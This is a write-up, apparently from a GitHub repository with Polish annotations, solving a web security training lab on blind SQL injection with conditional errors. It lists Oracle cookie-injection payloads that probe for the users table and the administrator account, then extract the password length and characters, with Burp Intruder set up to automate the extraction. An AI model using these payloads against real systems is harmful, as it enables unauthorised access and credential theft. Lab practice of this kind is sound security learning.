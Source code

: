 Title: Blind SQL injection with conditional errors
Level: Practitioner
Desc:  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user. 

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
![image](https://github.com/user-attachments/assets/4d10f504-bfee-4519-a541-89bf7f000502)
Wynik: zwraca błąd 

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
![image](https://github.com/user-attachments/assets/c5a7e711-e14e-4ce4-8b31-cfaca6717b90)
Wynik: nie zwraca błędu

Weryfikacja istnienia danej tabeli w bazie danych

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM usexxxrs where rownum=1)||'`
![image](https://github.com/user-attachments/assets/cd20d3f5-5204-4f73-b0a8-ed2387b36429)
Wynik: zwraca błąd, tabela nie istnieje w bazie

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM users where rownum=1)||'`
![image](https://github.com/user-attachments/assets/269752dd-e6ce-4bfc-9f4d-b9859be29ca8)
Wynik: nie zwraca błędu, tabela users istnieje w bazie danych

Weryfikacja, czy użytkownik istnieje:

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)>0 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='adminxistrator')||'`
![image](https://github.com/user-attachments/assets/672b52df-5e4f-4dbf-be56-e4d9f2779493)
Wynik: nie zwraca błędu, użytkownik adminxistrator nie istnieje

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)>0 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'`
![image](https://github.com/user-attachments/assets/ed3fabc1-f840-4dbb-9627-1d013a958652)
Wynik: zwraca błąd, administrator istnieje w tabeli users

Weryfikacja długości hasła
payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)>0 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';`
payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';`
0

Weryfikacja hasła:
payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'`

Setting up Intruder:
![image](https://github.com/user-attachments/assets/d88e96e4-0644-4a0b-a7ce-93635e418fff)
Grep - Match
![image](https://github.com/user-attachments/assets/e65677c7-0edd-46e9-9e37-5470342599d7)

Wyniki:
![image](https://github.com/user-attachments/assets/59e1799f-43a5-424e-b961-5fef8b6ffe97)

